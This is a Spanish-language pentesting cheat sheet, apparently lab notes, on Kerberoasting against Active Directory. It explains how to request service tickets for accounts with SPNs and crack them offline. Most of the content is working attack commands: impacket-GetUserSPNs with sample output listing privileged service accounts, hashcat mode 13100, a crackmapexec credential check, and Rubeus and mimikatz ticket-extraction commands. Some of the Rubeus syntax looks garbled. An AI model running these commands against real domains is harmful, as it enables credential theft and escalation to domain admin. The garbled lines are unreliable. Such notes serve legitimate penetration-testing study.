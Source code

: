 # Kerberoasting

- Este ataque sirve para obtener credenciales de cuentas de servicios que están configurados con la autenticación Kerberos.
- En AD comunmente las cuentas de servicios tienen privilegios muy elevados.
- [Más info](https://book.hacktricks.xyz/v/es/windows-hardening/active-directory-methodology/kerberoast)
## Como funciona

1. Solicitud TGS
2. Obtener Ticket.
3. Extraerlo con mimikatz o rubeus
4. Fuerza bruta o pass the ticket

- `sudo impacket-GetUserSPNs DOMAIN.LOCAL/USER:password -dc-ip IP -request`
- Guardar hash
- `hashcat -m 13100 hash.txt wordlist.txt`

## Listar cuentas
- `impacket-GetUserSPNs -dc-ip IP DOMAIN.LOCAL/USER`
- `impacket-GetUserSPNs -request -dc-ip 172.16.139.3 -target-domain trilocor.local trilocor.local/pthorpe`
- Ejemplo:
```powershell
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

#### Chequear cuenta post crackeo
- `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!`


## Extraer tickets desde Windows
- `Rubeus.exe asktgt /user:<usuario> /rc4:<contraseña>`
- `Rubeus.exe tgtreq /user:<usuario> /rc4:<spn>`
- `Rubeus tgtdeleg /ticket:<ticket_file>`
    - mimikatz: `mimikatz.exe "kerberos::list" "exit"`